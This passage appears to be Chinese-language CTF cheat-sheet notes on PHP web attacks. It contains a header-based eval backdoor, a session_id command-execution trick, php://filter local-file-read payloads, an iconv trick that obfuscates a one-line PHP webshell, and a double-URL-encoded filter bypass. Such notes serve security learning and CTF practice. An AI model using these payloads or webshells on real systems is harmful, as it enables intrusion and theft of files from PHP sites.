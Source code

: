 ```python
            print(flag)
            break
    print(z)
print('the flag is'+flag)
```

##### head头执行命令

`<?php eval(getallheaders()['Cookie'])?>`
`c=session_start();system(session_id());passid=ls`

#### php://filter

- 无过滤器:

`php://filter/resource=`

- 字符串过滤器:

`php://filter/read=string.rot13/resource=`
`php://filter/read=string.toupper/resource=`
`php://filter/read=string.tolower/resource=`
`php://filter/read=string.string_tags/resource=`

- 转换过滤器:
`php://filter/read=convert.base64-encode/resource=`
`php://filter/read=convert.quoted-printable-encode/resource=`
`php://filter/read=convert.iconv.utf-8.utf-16le/resource=`

> convert.iconv.：一种过滤器，和使用iconv()函数处理流数据有等同作用

`iconv ( string $in_charset , string $out_charset , string $str )`:将字符串`$str`从`in_charset`编码转换到`$out_charset`这里引入usc-2的概念，作用是对目标字符串每两位进行一反转，值得注意的是，因为是两位所以字符串需要保持在偶数位上

```php
$result = iconv("UCS-2LE","UCS-2BE", '<?php @eval($_POST[dotast]);?>');
echo "经过一次反转:".$result."\n";
echo "经过第二次反转:".iconv("UCS-2LE","UCS-2BE", $result);

//输出结果如下：
//经过一次反转:?<hp pe@av(l_$OPTSd[tosa]t;)>?
//经过第二次反转:<?php @eval($_POST[dotast]);?>
```

```php
payload: file=php://filter/read=convert.quoted-printable-encode/resource=flag.php
payload: file=compress.zlib://flag.php
payload: file=php://filter/read=convert.iconv.utf-8.utf-16le/resource=flag.php
```

```php
filter过滤
tips:
convert.base-encode64部分可以二次url编码绕过
?file=php://filter/convert.%25%36%32%25%36%31%25%37%33%25%36%35%25%33%36%25%33%34%25%32%64%25%36%35%25%36%65%25%36%33%25%36%66%25%36%34%25%36%35/resource=flag.php
```
